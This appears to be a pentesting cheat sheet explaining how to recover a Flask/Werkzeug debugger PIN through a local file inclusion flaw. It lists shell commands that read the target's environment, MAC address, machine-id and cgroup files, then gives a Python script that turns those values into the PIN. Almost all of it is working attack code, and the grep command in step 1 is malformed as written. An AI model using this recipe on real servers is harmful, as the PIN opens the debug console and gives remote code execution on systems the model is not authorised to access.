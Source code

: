 ```yaml
---
title: "Retrieve Flask Debug Pin"
date: 2024-7-12
tags: ["python", "flask", "werkzeug", "debug", "LFI"]
---
```


---
### Retrieve Flask Debug Pin

#### 1. Get user

```bash
cat /proc/self/environ | grep -aE ('USER'|'LOGNAME')
```

#### 2. Get full path of the application

```
+------------------------------+
| Get from Traceback debug log |
+------------------------------+
```

#### 3. Get MAC address

```bash
cat /sys/class/net/eth0/address
```

```bash
# Convert to int
python3 -c "print(int('<MAC_ADDRESS>'.replace(':',''), 16))"
```

#### 4. Create Machine ID String

```bash
echo $(cat /etc/machine-id)$(head -n 1 /proc/self/cgroup | rev | cut -d '/' -f1 | rev)
```

#### 5. Update public and private bits in Hacktrick's Script

```python
#!/usr/bin/env python3

import hashlib
from itertools import chain

probably_public_bits = [
    'user',       # username
    'flask.app',  # modname (should be flask.app)
    'Flask',      # Flask / wsgi_app / DebuggedApplication
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # full path of the app
]

private_bits = [
    '279275995014060',                  # Mac address
    'd4e6cb65d59544f3331ea0425dc555a1'  # machine_id string
]

h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

<br>